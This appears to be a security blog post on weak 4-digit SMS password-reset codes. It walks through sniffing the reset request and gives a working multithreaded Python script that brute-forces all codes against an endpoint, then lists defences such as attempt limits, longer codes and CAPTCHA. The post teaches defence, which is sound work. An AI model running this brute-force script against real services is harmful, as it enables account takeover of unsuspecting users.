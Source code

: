 ```yaml
---
author: ZhgChgLi
categories:
- ZRealm Dev.
date: 2021-03-14T15:57:38.256+0000
description: Discover how weak SMS verification codes expose accounts to brute force
  attacks. Learn Python-based methods to identify vulnerabilities and strengthen your
  authentication process for enhanced security outcomes.
image:
  path: /assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg
last_modified_at: 2024-04-13T16:30:08.749+0000
render_with_liquid: false
tags:
- english
- ai-translation
- ios-app-development
- hacker
- web-security
- password-security
- security-token
title: SMS Verification Code Security｜Prevent Brute Force Attacks with Python Demonstrations
---
```


### Security Issues with SMS Verification Code Strength for Password Recovery

Using Python to Demonstrate the Severity of Brute Force Attacks

![Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg)

Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}

### Introduction

This article contains little cybersecurity technical content; it is simply a sudden idea that came up while using a certain platform's website recently. I decided to casually test its security and ended up discovering an issue.

When using the password recovery feature on websites or apps, there are usually two options. One is to enter your username or email, and then a reset password page link containing a token is sent to your inbox. Clicking the link opens the page where you can reset your password. This part generally has no issues unless, as mentioned in the [previous article](../142244e5f07a/), there are design flaws that cause problems.

Another way to recover your password is by entering the linked phone number (mostly used in APP services). A verification code will be sent via SMS to the phone, and entering the code completes the password reset. For convenience, most services use numeric codes as verification codes. Additionally, since iOS ≥ 11 added the [Password AutoFill](../948ed34efa09/) feature, the keyboard will automatically detect and prompt the verification code when the phone receives it.

![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png)

Check the [official documentation](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow){:target="_blank"}, Apple does not provide a format rule for automatically filling verification codes; however, almost all services that support autofill use pure numbers. It is inferred that only numbers are allowed, and complex combinations of numbers and letters are not supported.

### Question

Because numeric passwords can be brute-forced, especially 4-digit codes; the combinations range only from 0000 to 9999, totaling 10,000 combinations; using multiple threads and machines can split the workload for brute-force cracking.

Assuming each verification request takes 0.1 seconds to respond, 10,000 combinations = 10,000 requests

```
Time required to crack: ((10,000 * 0.1) / number of threads) seconds
```

Even without opening a thread, it only takes about 16 minutes to try the correct SMS verification code.

> *Besides insufficient password length and complexity, there is also the issue of no attempt limit and overly long validity period for verification codes.*

### Combination

In summary, this security issue is common on the app side. Web services usually add CAPTCHA verification after multiple failed attempts or require additional security questions when requesting password resets, increasing the difficulty of sending verification requests. Additionally, if web services do not separate front-end and back-end, each verification request requires loading the entire webpage, lengthening the response time.

On the app side, password reset processes are often simplified for user convenience, and some apps even allow login through phone number verification; if there is no protection on the API side, this can lead to security vulnerabilities.

### Practice

> ⚠️Warning⚠️ This article is for demonstrating the severity of this security issue only. Do not use it for malicious purposes.

#### Sniffing Authentication Request API

Everything starts with sniffing. For this part, you can refer to the previous articles "[APP uses HTTPS transmission, but data is still stolen.](../46410aaada00/)" and "[Using Python + Google Cloud Platform + Line Bot to automate routine tasks](../70a1409b149a/)". The first article explains the principle, and it is recommended to use [Proxyman](https://proxyman.io/){:target="_blank"} from the second article for sniffing.

![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png)

For websites with separated front-end and back-end, you can also use Chrome -> Inspect -> Network -> to see what requests are sent after submitting the verification code.

![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png)

**Assuming the received verification code request is:**

```
POST https://zhgchg.li/findPWD
```

**Response:**

```
{
   "status":false
   "msg":"Verification error"
}
```

#### Writing a Brute Force Python Script

crack.py:

```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone" : phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data = data, headers = headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code "+ stringCode +" exception error \(" + str(e) + ")")

def main():
    codeGroups = [
        [0,1000],[1000,2000],[2000,3000],[3000,4000],[4000,5000],
        [5000,6000],[6000,7000],[7000,8000],[8000,9000],[9000,10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target = crack, args = (codeGroup[0],codeGroup[1],))
        t.start()

main()
```

After running the script, we get:

![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png)

```
Verification code equals: 1743
```

Enter `1743` to reset the password, replace the original password, or log in directly.

> Bigo!

### Solution

- Password reset with additional information verification (e.g., birthdate, security questions)

- Increase the verification code length (e.g., Apple’s 6-digit code) and increase the verification code complexity (if it does not affect the AutoFill function)

- Invalidate the verification code after more than 3 failed attempts, requiring the user to request a new code.

- Verification Code Expiration Time Shortened

- Lock device after too many failed verification attempts, add CAPTCHA verification

- APP should implement more SSL Pinning and transmission encryption/decryption (to prevent sniffing)

### Further Reading

- [Revealing a Clever Website Vulnerability Discovered a Few Years Ago](../142244e5f07a/)

- [How to Create an Engaging Engineering CTF Competition](../729d7b6817a4/)

- [The app uses HTTPS for transmission, but data was still stolen.](../46410aaada00/)

- [Automate Routine Tasks with Python + Google Cloud Platform + Line Bot](../70a1409b149a/)

If you have any questions or feedback, feel free to [contact me](https://www.zhgchg.li/contact){:target="_blank"}.

*[Post](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190){:target="_blank"} converted from Medium by [ZMediumToMarkdown](https://github.com/ZhgChgLi/ZMediumToMarkdown){:target="_blank"}.*